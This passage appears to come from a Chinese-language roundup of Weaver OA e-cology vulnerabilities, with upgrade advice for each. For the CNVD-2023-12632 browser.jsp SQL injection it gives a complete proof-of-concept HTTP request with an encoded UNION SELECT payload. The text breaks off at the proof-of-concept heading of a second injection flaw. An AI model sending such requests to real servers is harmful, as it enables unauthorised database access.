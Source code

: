  **修复建议** ：  

1.限制访问来源地址，如非必要，不要将系统开放在互联网上。  

2.目前官方已发布10.58.2来修复此漏洞，建议受影响用户更新至10.58.2  

  * 

    
    
    https://www.weaver.com.cn/cs/securityDownload.html#

  

 **5.泛微OA E-Cology9未授权SQL注入漏洞(CNVD-2023-12632)**

泛微新一代移动办公平台e-cology不仅组织提供了一体化的协同工作平台,将组织事务逐渐实现全程电子化,改变传统纸质文件、实体签章的方式。泛微OA
E-Cology 平台browser.jsp处存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库权限。

 **漏洞编号** ：CNVD-2023-12632

 **漏洞类型** ：SQL注入  

 **影响版本** ：泛微e-cology V9 < 10.56

 **POC** ：  

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /mobile/plugin/browser.jsp HTTP/1.1Host:***Upgrade-Insecure-Requests: 1Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9x-forwarded-for:***x-originating-ip:***x-remote-ip: ***x-remote-addr:***Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 649  
    isDis=1&browserTypeId=269&keyword=%2525%2536%2531%2525%2532%2537%2525%2532%2530%2525%2537%2535%2525%2536%2565%2525%2536%2539%2525%2536%2566%2525%2536%2565%2525%2532%2530%2525%2537%2533%2525%2536%2535%2525%2536%2563%2525%2536%2535%2525%2536%2533%2525%2537%2534%2525%2532%2530%2525%2533%2531%2525%2532%2563%2525%2532%2537%2525%2532%2537%2525%2532%2562%2525%2532%2538%2525%2535%2533%2525%2534%2535%2525%2534%2563%2525%2534%2535%2525%2534%2533%2525%2535%2534%2525%2532%2530%2525%2534%2530%2525%2534%2530%2525%2535%2536%2525%2534%2535%2525%2535%2532%2525%2535%2533%2525%2534%2539%2525%2534%2566%2525%2534%2565%2525%2532%2539%2525%2532%2562%2525%2532%2537

 **修复建议** ：

升级至安全版本，官方修复方案  

  * 

    
    
    https://www.weaver.com.cn/cs/securityDownload.asp#

  

 **6.泛微OA e-cology前台接口SQL注入漏洞**

由于OA系统的WorkflowCenterTreeData接口在收到用户输入的时候未进行安全过滤，oracle数据库传入恶意SQL语句，导致SQL漏洞。

 **漏洞编号** ：无

 **漏洞类型** ：SQL注入

 **影响版本** ：使用oracle数据库的泛微 e-cology OA 系统

 **POC** ：  
